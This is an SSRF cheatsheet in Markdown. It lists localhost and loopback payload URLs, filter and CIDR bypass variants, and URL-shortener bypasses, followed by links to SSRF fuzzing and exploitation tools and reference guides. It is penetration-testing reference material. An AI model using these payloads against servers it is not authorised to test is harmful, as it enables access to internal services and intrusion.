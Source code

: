 # 🏂 SSRF

## SSRF Cheatsheet

### Using localhost

```
http://localhost:80
http://localhost:443
http://localhost:22
```

### Using 127.0.0.1

```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

### Using 0.0.0.0

```
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

### Filter Bypass

```
https://127.0.0.1/
https://localhost/
```

### Bypass Localhost with CIDR

```
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using URL Shortners

```
https://free-url-shortener.rb.gy/

https://shorter.me/
```



***

## Tools

* [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Automatic SSRF fuzzer and exploitation tool
* [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - Generates gopher link for exploiting SSRF and gaining RCE in various servers
* [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - Python based scanner to find potential SSRF parameters
* [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - Simple SSRF-testing sheriff written in Go
* [assetnote/surf](https://github.com/assetnote/surf) - Returns a list of viable SSRF candidates
* [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - A blazing-fast, thread-safe, straightforward and zero memory allocations tool to swiftly generate alternative IP(v4) address representations in Go.



***

## REFERENCES

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#tools)
* [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
* [https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)
* [https://shorter.me/](https://shorter.me/)
* [https://free-url-shortener.rb.gy/](https://free-url-shortener.rb.gy/)
